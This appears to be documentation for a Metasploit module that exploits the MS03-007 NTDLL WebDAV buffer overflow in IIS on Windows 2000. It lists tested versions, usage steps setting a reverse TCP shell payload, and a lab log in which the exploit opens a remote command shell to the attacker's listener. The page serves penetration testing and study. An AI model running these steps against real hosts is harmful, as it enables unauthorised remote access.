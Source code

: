 ## Vulnerable Application

This exploits a buffer overflow in NTDLL.dll on Windows 2000
through the SEARCH WebDAV method in IIS. This particular
module only works against Windows 2000. It should have a
reasonable chance of success against SP0 to SP3.

This module has been tested successfully on:

* Windows 2000 Professional SP0 (EN)
* Windows 2000 Professional SP0 (FI)
* Windows 2000 Professional SP0 (NL)
* Windows 2000 Professional SP0 (TR)
* Windows 2000 Professional SP1 (AR)
* Windows 2000 Professional SP1 (CZ)
* Windows 2000 Professional SP1 (EN)
* Windows 2000 Professional SP2 (EN)
* Windows 2000 Professional SP2 (FR)
* Windows 2000 Professional SP2 (PT)
* Windows 2000 Professional SP3 (EN)
* Windows 2000 Server SP0 (DE)
* Windows 2000 Server SP0 (EN)
* Windows 2000 Server SP0 (ES)
* Windows 2000 Server SP0 (FR)
* Windows 2000 Server SP0 (HU)
* Windows 2000 Server SP0 (NL)
* Windows 2000 Server SP0 (PT)
* Windows 2000 Server SP0 (TR)
* Windows 2000 Server SP1 (EN)
* Windows 2000 Server SP1 (SE)
* Windows 2000 Server SP2 (EN)
* Windows 2000 Server SP2 (RU)
* Windows 2000 Server SP3 (DE)
* Windows 2000 Server SP3 (IT)

## Verification Steps

1. `use exploit/windows/iis/ms03_007_ntdll_webdav`
1. `set RHOSTS [IP]`
1. `set PAYLOAD windows/shell/reverse_tcp`
1. `set LHOST [IP]`
1. `run`

## Options


## Scenarios

### Windows 2000 Professional SP1 (EN)


```
msf > use exploit/windows/iis/ms03_007_ntdll_webdav 
[*] Using configured payload windows/shell/reverse_tcp
msf exploit(windows/iis/ms03_007_ntdll_webdav) > set rhosts 192.168.200.195
rhosts => 192.168.200.195
msf exploit(windows/iis/ms03_007_ntdll_webdav) > set lhost 192.168.200.130 
lhost => 192.168.200.130
msf exploit(windows/iis/ms03_007_ntdll_webdav) > check
[+] 192.168.200.195:80 - The target is vulnerable. We've hit a server error (exception)
msf exploit(windows/iis/ms03_007_ntdll_webdav) > run

[*] Started reverse TCP handler on 192.168.200.130:4444 
[*] Trying return address 0x004e004f (1 / 88)...
[-] Attempt failed: Connection reset by peer
[*] Checking if IIS is back up after a failed attempt...
[-] Connection failed (1 of 20)...
[-] Connection failed (2 of 20)...
[-] Connection failed (3 of 20)...
[-] Connection failed (4 of 20)...
[*] Trying return address 0x00ce004f (2 / 88)...
[-] Attempt failed: Connection reset by peer
[*] Checking if IIS is back up after a failed attempt...
[-] Connection failed (1 of 20)...
[-] Connection failed (2 of 20)...
[*] Trying return address 0x00ce0041 (3 / 88)...
[-] Attempt failed: Connection reset by peer
[*] Checking if IIS is back up after a failed attempt...
[-] Connection failed (1 of 20)...
[-] Connection failed (2 of 20)...
[-] Connection failed (3 of 20)...
[-] Connection failed (4 of 20)...
[*] Trying return address 0x00430041 (4 / 88)...
[-] Attempt failed: Connection reset by peer
[*] Checking if IIS is back up after a failed attempt...
[-] Connection failed (1 of 20)...
[-] Connection failed (2 of 20)...
[*] Trying return address 0x00b40041 (5 / 88)...
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (267 bytes) to 192.168.200.195
[*] Command shell session 1 opened (192.168.200.130:4444 -> 192.168.200.195:1066) at 2022-07-07 06:13:21 -0400


Shell Banner:
Microsoft Windows 2000 [Version 5.00.2195]
-----


C:\WINNT\system32>ver
ver

Microsoft Windows 2000 [Version 5.00.2195]

C:\WINNT\system32>
```
